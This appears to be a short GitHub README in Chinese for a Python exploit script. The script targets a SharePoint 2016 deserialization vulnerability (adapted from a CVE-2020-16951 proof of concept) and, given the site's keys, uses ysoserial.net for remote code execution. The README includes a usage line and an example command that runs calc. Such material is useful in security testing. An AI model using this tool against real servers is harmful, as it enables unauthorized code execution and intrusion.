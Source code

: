 # sp16-zoombldr-deserializatoin

Modified from https://srcincite.io/pocs/cve-2020-16951.py.txt

一个简单的脚本，在测试 SharePoint 2016 反序列化漏洞时，获取了加解密密钥后调用 ysoserial.net 一键 rce

使用脚本需要同目录下有 `yss/ysoserial.exe` 

由于脚本用的 zoombldr.aspx 这个固定 path，别的版本比如13、19不确定是否也可

## usage

```bash
python3 sp16-zoombldr-deserializatoin.py <SPSite> <user:pass> <key> <cmd>

# eg.
python3 sp16-zoombldr-deserializatoin.py WIN-6669U6A35C6:10000 XiaoC@sp16:1 2873CDF0C96F4C3CAA489F470FB1DF6E74E963EB5E661AEB3CDDA45531999C6F calc
```